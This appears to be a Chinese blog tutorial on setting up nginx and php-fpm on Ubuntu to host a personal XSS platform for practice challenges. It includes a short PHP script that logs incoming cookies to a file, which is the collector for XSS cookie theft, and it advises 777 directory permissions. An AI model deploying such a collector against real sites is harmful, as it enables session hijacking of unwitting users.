




写在前面
在学习XSS漏洞过程中，由于目前大多数XSS平台都变成了收费的，所以打算自己用服务器搭建来完成XSS题目
中途遇到不少问题，这里分享一下经验
实验环境
操作系统：Ubuntu 18.04 64位
nginx：1.14.0
php：7.2.17-0
php-fram：php7.2-fpm
实验步骤
安装必要程序和依赖
#安装程序包
sudo apt-get install php7.2
sudo apt-get install php7.2-fpm #nginx与php之间的桥梁
sudo apt remove apache2* #删除自动安装的Apache2，注意最后面有星号
sudo apt autoremove # 清除Apache2的依赖
sudo apt-get install nginx#安装必要依赖
sudo apt-get install php-json
sudo apt-get install php-curl
sudo apt-get install php7.2-mysql
sudo apt-get install php7.2-cgi浏览器http://xxxxxx(自己的IP)，出现如下界面即为成功

有可能显示为阿帕奇主页，可以尝试删除 /var/www/html/index.html
因为安装php的时候会自动安装apache2,导致往这里写了这个index.html静态文件，卸载了Apache2，但这个index没删掉，导致出现异常，问题不大
配置php-frm
修改frm配置文件
sudo vim /etc/php/7.2/fpm/php.inivim不是唯一选择，也可以更换自己熟悉的编辑器
#修改如下参数
;cgi.fix_fathinfo=1改为cgi.fix_fathinfo=0

sudo vim /etc/php/7.2/fpm/pool.d/www.conf#修改如下参数
listen = 127.0.0.1:9000 （原先值是/run/php/php7.2-fpm.sock）
listen.allowed_clients = 127.0.0.1
pm.max_children = 50
pm.max_requests = 500
request_terminate_timeout = 0
rlimit_files = 1024
编写demo测试一下
在/var/www/html/下编写index.php
vim /var/www/html/index.php
内容如下：
<h1>
<span> Hello,this is test page. </span>
</h1>配置nginx
sudo vim /etc/nginx/sites-available/default在index.html前加上index.php
将以下框中内容修改
location ~ \.php$ {
root html;
fastcgi_pass 127.0.0.1:9000;
fastcgi_index index.php;
fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
include fastcgi_params;
}
重启服务
sudo service php7.2-fpm restart
sudo service nginx restart 查看demo测试
浏览器访问自己的IP

至此就可以进行编写自己的网站了，因为我是用作XSS平台用，所以简单分享一下我的问题
遇到的问题
网页无法访问
我在/var/www/html/下创建了xss的目录，下面放了可以反弹到cookie的php
<?php
highlight_file(__FILE__);
$cookie = $_GET['cookie'];
$time = date('Y-m-d h:i:s', time());
$log = fopen("cookie.txt", "a");
fwrite($log,$time.': '. $cookie . "\n");
fclose($log);
?>
刚开始一直访问不了 报错：Not input file specified然后看日志/var/log/nginx/error.log
FastCGI sent in stderr: "Unable to open primary script: /var/www/html//xss/cookie.php (No such file or directory)"看到文件路径多了一个/于是查询，在配置nginx的时候出了点小问题fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;改成这样删去多余的/
无法写入文件
因为这个php是要把反弹过来的cookie写入txt的，所以我这个虽然可以成功打开，但是一直写入不了，于是更改目录xss的权限为664，改完之后是有写入权限了，但是网页又打不开了，然后发现，作为目录不仅需要写入权限也需要可执行权限，于是改成777，已经全部解决。